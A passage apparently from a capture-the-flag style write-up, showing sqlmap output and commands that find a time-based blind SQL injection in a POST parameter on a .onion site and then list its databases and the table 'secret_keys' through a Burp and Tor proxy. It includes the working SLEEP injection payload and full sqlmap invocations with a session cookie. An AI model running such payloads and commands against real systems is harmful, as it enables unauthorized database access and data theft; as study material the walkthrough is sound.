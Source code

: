 ```bash
[07:26:58] [INFO] testing for SQL injection on POST parameter 'k'
[07:26:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[07:26:58] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[07:27:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[07:27:40] [INFO] POST parameter 'k' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (2) values? [Y/n] 
[07:28:05] [INFO] checking if the injection point on POST parameter 'k' is a false positive
POST parameter 'k' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: k (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: k=foo' AND (SELECT * FROM (SELECT(SLEEP(5)))VEyD) AND 'Tsac'='Tsac
---
[07:28:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 5.6.28
back-end DBMS: MySQL >= 5.0.12
[07:28:54] [INFO] fetched data logged to text files under '/home/jsmith/.sqlmap/output/7y4b2aymlqwmkyuh.onion'

[*] shutting down at 07:28:54
```

As for the parameters used, the `proxy` setting allows to connect to Tor network through Burp. The `--technique T` forces the use of time-based blind injection technique. To go further we instruct sqlmap to dump the DB list as follows (and this takes forever because it is time-based through Burp through SOCKS proxy through Tor, who said inception?):
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --dbs
[CUT BY TROLLI101]
available databases [5]:
[*] information_schema
[*] mysql
[*] pengus_site
[*] performance_schema
[*] test
[CUT BY TROLLI101]
```

Next step is to list the tables in DB pengus_site:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site --tables
[CUT BY TROLLI101]
Database: pengus_site
[1 table]
+-------------+
| secret_keys |
+-------------+
[CUT BY TROLLI101]
```

